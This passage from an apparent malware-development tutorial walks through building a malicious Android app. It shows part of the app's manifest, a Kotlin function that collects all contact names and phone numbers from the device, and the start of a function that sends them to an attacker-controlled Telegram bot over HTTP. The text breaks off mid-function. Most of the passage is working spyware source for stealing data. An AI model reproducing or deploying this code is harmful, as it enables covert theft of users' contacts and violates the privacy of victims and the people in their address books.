 ```xml
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.HackContacts">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

The components of the our malicious application: the app uses the Android Contacts Content Provider (`ContactsContract`) to fetch the user's contacts, the app then sends the gathered data via an HTTP request via Telegram Bot API.     

As the previous examples, we need the `getContacts()` function. This function queries the `ContactsContract` content provider to extract the contacts from the device. The extracted contact information (name and phone number) is added to the message that will be sent to the Telegram bot:    

```kotlin
fun getContacts(): String {
    val contactsList = mutableListOf<String>()
    val contentResolver = context.contentResolver
    val cursor = contentResolver.query(
        ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
        null,
        null,
        null,
        null
    )

    cursor?.use {
        val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
        val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

        while (it.moveToNext()) {
            val name = it.getString(nameIndex)
            val number = it.getString(numberIndex)
            contactsList.add("$name: $number")
        }
    }

    return contactsList.joinToString(separator = "\n")
}
```

Then sends the retrieved contacts to an attacker-controlled Telegram Bot API using OkHttp:    

```kotlin
// function to send contacts using OkHttp
fun sendContacts(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val contacts = getContacts()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$contacts\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

```